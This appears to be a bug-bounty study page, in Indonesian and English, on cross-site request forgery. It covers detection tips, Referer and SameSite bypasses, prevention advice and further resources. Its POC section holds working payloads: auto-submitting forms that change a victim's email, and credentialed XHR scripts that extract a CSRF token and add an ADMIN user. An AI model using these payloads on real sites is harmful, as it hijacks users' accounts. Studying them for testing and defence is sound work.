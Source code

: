 # CSRF
Cross Site Request Forgery adalah serangan yang memaksa pengguna agar backend mengeksekusi perintah yang tidak seharusnya dizinkan, menipu website dari request user yang terpercaya dan mengirim Request palsu dari authenticate user. Terdapat 2 penyebab suatu aplikasi rentan akan CSRF, yaitu:
- Tidak ada pertahanan anti-CSRF
- Anti CSRF yang lemah (cookie only based solution, confirmation screen, using POST, dan weak referrer header)
<img width=500 src="https://user-images.githubusercontent.com/52058660/121773442-33437280-cba6-11eb-8890-9f5d2f7900fa.png">


## HOW TO FIND THEM
- Cek Form yang tidak menirimkanan extra token ketika melakukan request, biasanya dilabeli dengan csrf_token, csrf, token dll
- Misalkan saat mengganti password, tidak ada form confirmation untuk memasukkan password yang cuurent digunakan
- Cari form yang menggnerate impact, seperti pembayaran, pengantian password, hapus file, dan menambahkan file
- No CSRF token, 80% pasti ada bug
- The easiest way to check whether an application is vulnerable is to see if each link and form contains an unpredictable token for each user. Without such an unpredictable token, attackers can forge malicious requests. Focus on the links and forms that invoke state-changing functions, since those are the most important CSRF targets.
- "When first hunting for CSRF bugs I look for areas on the website which should contain protection around them, such as updating your account information."
  - What behavior do you see when sending a blank CSRF value, did it reveal any framework information from an error?
  - Did it reflect your changes but with a CSRF error?
  - Have you seen this parameter name used on other websites? Perhaps there isn’t even any protection! Test their most secure features (account functions usually as mentioned above) and work your way backwards.
- Jika Session aplikasi bergantung pada `http cookie` dan `basic authentication`
- Cek misconfigurasi CORS, sebenarnya CORS malah melemahkan browser karena melonggarkan aturan dari Same-origin policy sehingga apabila terjadi misconfigurasi CORS, attacker dapat memanfaatkan celah tersebut untuk melancarkan serangan CSRF.


## Bypass
- Ketika kita berhasil mengeksploitasi XSS, segala defense mechanisms terhadap CSRF menjadi useless.
- Bypass referer header
  - Salah satu langkah preventif untuk menanggulangi CSRF adalah memastian referer header berisikan website yang valid. Tapi bagaimana jika fielder header tersebut dihilangkan? kadang kita bisa membypass nya dengan meta tag berikut.
    ```
    <meta name="referrer" content="no-referrer" />
    <iframe src=”data:text/html;base64,form_code_here”>
    ```
  - Kadang developer juga hanya memastika bahwa referer header mengandung domain mereka, kita bisa mengakalinya dengan menambahkan sebuah direktori dengan domain target pada evil server kita, contoh: `https://www.yoursite.com/https://www.theirsite.com/` atau `https://www.theirsite.computer/`.
- Samesite cookie, bisa dibypass dengan modifikasi GET

## POC

- Menggunakan HTML Form
  ```
  <form method="$method" action="$url">
    <input type="hidden" name="$param1name" value="$param1value">
    <input type="submit" value="submit">
    </form>
  <script> document.forms[0].submit();</script>
  ```
  ```
  <form action="change.php" method="POST" id="CSRForm">
    <input name="old" value="myC00lemail@victim.site">
    <input name="new" value="evil@hacker.site">
    <img src=x onerror="CSRForm.submit();">
  </form>
  ```
- Menggunakan XHR
  ```
  <script type="text/javascript">
    var url =  "http://1.csrf.labs/add_user.php";
    var params =  "name=Malice&surname=Smith&email=malice%40hacker.site&role=ADMIN&submit=";    
    var CSRF = new XMLHttpRequest();
    CSRF.open("POST", url, true);
    CSRF.withCredentials = 'true'; //IMPORTANTMUST!!
    CSRF.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    CSRF.send(params);
  </script> 
  ```  
- XHR dengan extract token
  ```
  <script type="text/javascript">
 
  function addUser() {
    var url = "http://3.csrf.labs/add_user.php";
    var params =  "name=Malice&surname=Smith&email=malice%40hacker.site&role=ADMIN&submit=&CSRFtoken=" + token;
    var CSRF = new XMLHttpRequest();
 
    CSRF.open("POST", url, true);
    CSRF.withCredentials = 'true'; //IMPORTANTMUST!!
    CSRF.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    CSRF.send(params);
    }
 
  // Extract the token
  var XHR = new XMLHttpRequest();
  
  XHR.onreadystatechange = function(){
    if(XHR.readyState == 4 ) {
        var htmlSource = XHR.responseText; // the source of users.php

        // Extract the token  
        var parser = new DOMParser().parseFromString(htmlSource, "text/html");
        var token = parser.getElementById('CSRFToken').value;
        addUser(token);
        }
 
  XHR.open('GET', 'http://3.csrf.labs/users.php', true);
  XHR.send();
 
  </script>

  ```

## PREVENTION
- CSRF Token
  - CSRF token should be generated on the server-side
  - CSRF token should not be transmitted using cookies
  - CSRF token should be unique per session, secret, and unpredictable
  - CSRF token should no be leaked in the server logs or in the URL

- Double submit Cookie
  ```
  POST /email/change HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 68
  Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

  csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com 
  ```
- Samesite Cookie
  ```
  Set-Cookie: JSESSIONID=xxxxx; SameSite=Strict
  Set-Cookie: JSESSIONID=xxxxx; SameSite=Lax
  ```


## RESOURCE
- [OWASP - Cross Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf)
- [OWASP - Reviewing Code for Cross-Site Request Forgery Issues Overview](https://owasp.org/www-project-code-review-guide/reviewing-code-for-csrf-issues)
- [OWASP Web Security Testing Guide - Testing for Cross Site Request Forgery](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery.md)
- [OWASP Cheat Sheet Series - Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [InsiderPhD - Finding Your First Bug: Cross-Site Request Forgery (CSRF)](https://www.youtube.com/watch?v=ULvf6N8AL2A)
- [CSRF, CORS, and HTTP Security headers Demystified](https://blog.vnaik.com/posts/web-attacks.html)[PayloadsAllTheThings - Cross-Site Request Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection#methodology)
- [Zseano's Methodology - CSRF](https://www.bugbountyhunter.com/methodology/loader.php#page=22)
- [BugBountyHunter - CSRF](https://www.bugbountyhunter.com/vulnerability/?type=csrf)
- [Portswigger Academy - Cross-site request forgery (CSRF)](https://portswigger.net/web-security/csrf)
- [OWASP Juice Shop - Broken Access Control](https://owasp.org/www-project-juice-shop)
- [OWASP Security Knowledge Framework - CSRF](https://owasp-skf.gitbook.io/asvs-write-ups/kbid-5-csrf)

## WRITE-UP
|Write-ups|Analisa|
|---|---|
|[CSRF at Kaskus.co.id](https://medium.com/@daffailhamr/csrf-at-kaskus-co-id-f8e31864807f)||
|[Refocusing in bug hunting, Bonus: An interestingly simple to test CSRF bypass](https://medium.com/bugbountywriteup/refocusing-in-bug-hunting-bonus-an-interestingly-simple-to-test-csrf-bypass-8595b3312147)|Mengganti content-type non-form  (i.e. `application/json, application/x-url-encoded`, etc.) menjadi `form-multipart`|
|[Got Nice catch by Google](https://parthdeshani.medium.com/got-nice-catch-by-google-5e6a8211371c)|Periksa parameter state. State parameter is used in Oauth to prevent CSRF attacks|
[JSON CSRF To FormData Attack](https://medium.com/@osamaavvan/json-csrf-to-formdata-attack-eb65272376a2)


